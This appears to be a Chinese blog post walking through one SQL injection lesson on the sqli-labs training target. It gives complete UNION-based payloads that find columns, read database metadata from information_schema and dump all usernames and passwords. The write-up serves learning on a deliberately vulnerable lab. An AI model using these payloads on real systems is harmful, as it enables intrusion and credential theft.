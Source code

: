 ```yaml
---
layout: post
title: sqli-labs Lesson-2 数字型注入
subtitle: 
date: 2020-01-03
author: kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - sql
    - sql injection
    - security
---
```




## preface



这篇文章是我正式学习 sql 注入的第一篇文章，下载了 sqli-labs 靶机作为渗透环境，里面的题目很多，有几十题的 sql 注入，跟着网上的 wp 一起做了一题，然后还是学到挺多东西的，这里拿第一关来记录一下



## sql 注入概念



通俗点说，就是要获取数据库里面所有的信息，包括这张表的字段个数，字段名分别是什么，在哪个数据库中，以及所有的记录，一般来说，黑客就会想知道有关管理员表的一些信息，作为学习，我就先将 sql 注入的一般的步骤写下来



1. 判断是否可注入以及注入点的类型（字符型，数字型，布尔型）
2. 猜解表中的字段数（一般利用 order by column_id）
3. 确定显示的字段顺序（一般用 union 联合查询）
4. 获取当前的数据库（通过 MySQL 内建的 database() 函数）
5. 获取表中的字段名
6. 下载数据



## 开始做题



### 判断注入点



下面就按照上面这几个步骤来对第一关进行 sql 注入吧，害，不过题目都说了是基于报错的字符型单引号注入了，有了先入为主的思想，就直接输入一个 `'` 进去了，然后看到报错信息，真的是用单引号包着的，所以猜测 sql 查询语句为

```sql
select xx from table where id='$id' limit 0, 1;
```

![error](https://i.loli.net/2020/01/04/5pvtiwQ4lFEebL8.png)



然后进一步查看是否存在 sql 注入，由于已知是字符型的注入了，所以我们分别输入 `'or'1'='1` 和 `'or'1'='2` 来看看返回的是不是相同的界面，如果不同的话就说明有 sql 注入漏洞

![1578127454967.png](https://i.loli.net/2020/01/04/nrVNCgmHS9qpAhv.png)

![1578127478997.png](https://i.loli.net/2020/01/04/tlqJf8zY6VcjPuC.png)



### 爆字段个数



可以看到返回的不同的数据，所以存在 sql 注入，下面我们就开始注入过程。首先确定一下这张表有几个字段，用 `order by column_id` 一个一个试，然后把后面的 sql 语句给注释掉来截断

![1578127659994.png](https://i.loli.net/2020/01/04/DT54rxqRdLPINoU.png)

试到 4 的时候报错了，所以确定了这张表只有 3 个字段

![1578127762664.png](https://i.loli.net/2020/01/04/EMKJSneVmkgs9RW.png)



### 爆显示顺序



紧接着，第二步，确定显示出来的是哪几个字段，这里用 union 查询，并且将前面一个查询的结果给屏蔽，因为这个 sql 语句只能返回一条记录，如果前面输出了的话那么后面查询得到的数据就不会被显示出来，所以这里我们可以用下面这句来构造 payload

```sql
1' and 1=2 union select 1, 2 --+ 
```

但是报错了，说 union 查询的前后两条记录的字段数不相等，那么猜想真实的 sql 语句一定是 `select *` ，返回的是 3 个字段的记录

![1578129308538.png](https://i.loli.net/2020/01/04/G9Ry6KH7uQaojew.png)



那我们就再构造一个 payload

```sql
1' and 1=2 union select 1, 2, 3 --+ 
```

![select-1-2-3](https://i.loli.net/2020/01/04/XFDzSr3ZfPdlC2J.png)



### 爆数据库



这次显示的是 2， 3，所以 login_name 这个字段的顺序是 2，password 是 3，那么 id 肯定是 1 了，已经知道这些了，接下去就看下这个数据库叫什么名字，要先得到数据库的消息就可以用 mysql 内建的数据库查出表的名字，用下面这条 payload 获取数据库的名字

```sql
1' and 1=2 union select 1, database(), 3 --+ 
```



![1578129576658.png](https://i.loli.net/2020/01/04/qgJoxCHXfUnZjmM.png)



### 爆表名



ok，这张表所在的数据库的名字是 security，知道数据库的名字之后我们还得知道数据库是什么系统的，以及版本号，顺带也可以获取系统是 win 还是 linux ，虽然这里肯定是 MySQL 数据库，但是实战中不一定总是 MySQL ，所以要先查询一下，下面这些函数在我之前写的 [sql 基本语句](https://szukevin.site/2019/11/13/%E4%B8%80%E4%BA%9B%E5%B8%B8%E7%94%A8%E7%9A%84SQL%E8%AF%AD%E5%8F%A5/)中都找得到



可以像这样一个一个查询，查完之后换一个函数继续查，但是效率不高

```
1' and 1=2 union select 1, @@datadir, version() --+ 
1' and 1=2 union select 1, @@version_compile_os, user() --+ 
```



用 `concat_ws(separator,str1,str2,...)` 函数更加方便，这个函数的功能是将多个字符串拼接在一起，因此我们可以用这个函数一次性查询好多东西

```sql
1' and 1=2 union select 1, 2, concat_ws(',', @@datadir, version(), @@version_compile_os, user()) --+ 
```



![1578139631092.png](https://i.loli.net/2020/01/04/7w3hYL9UdajGiHS.png)



得知数据库是在 debian 系统上的 MariaDB（其实跟 MySQL 是一样的东西），接下来我们用 MySQL 中的 information_schema 数据库爆出表名

```sql
1' and 1=2 union select 1, 2, table_name from information_schema.tables where table_schema='security' --+ 
```



![1578130520986.png](https://i.loli.net/2020/01/04/jhYCoxwXWJQTI9r.png)



可以看到，只显示出了一个表名，这是因为它只取了第一行的记录，其实是有多行的，我们要用 `group_concat` 这个函数将多行记录放在一行显示

```sql
1' and 1=2 union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='security' --+ 
```

![1578130656386.png](https://i.loli.net/2020/01/04/6Bl2AuzxXMOmSo1.png)



### 爆字段名



然后看到了这个数据库里面有 4 张表，猜想这张表是 users ，然后爆出字段名，同样也是用到 information_schema 这个数据库，所以说这个数据库很重要

```sql
1' and 1=2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' --+ 
```



![1578139721794.png](https://i.loli.net/2020/01/04/4whBe617vqQKRnO.png)



但是这里出现了好多字段，之前不是确认过了这张表只有三个字段的吗，原因就是我的环境中还有其他的数据库中的表也叫做 users ，为了避免这种情况，就要再筛选一下了



```sql
1' and 1=2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security' --+ 
```

![1578138434738.png](https://i.loli.net/2020/01/04/5ICxjqW9cNifXg2.png)



### 爆所有数据



这下字段名就出来了，一个是 id ，一个是 username ，一个是 password ，接下去就可以根据字段名将数据库所有的用户信息都给爆出来了



```sql
1' and 1=2 union select 1, group_concat(username), group_concat(password) from users --+ 
```



![all-data](https://i.loli.net/2020/01/04/xfj81R69tDvqKVQ.png)



到这里就完成了一次注入，还挺有趣的，总之注入的时候就要想想后台的 sql 可能是怎么写的，然后去猜测信息，接着用一些手段来获取自己想得到的信息



## reference



https://blog.csdn.net/qq_43531669/article/details/90812561

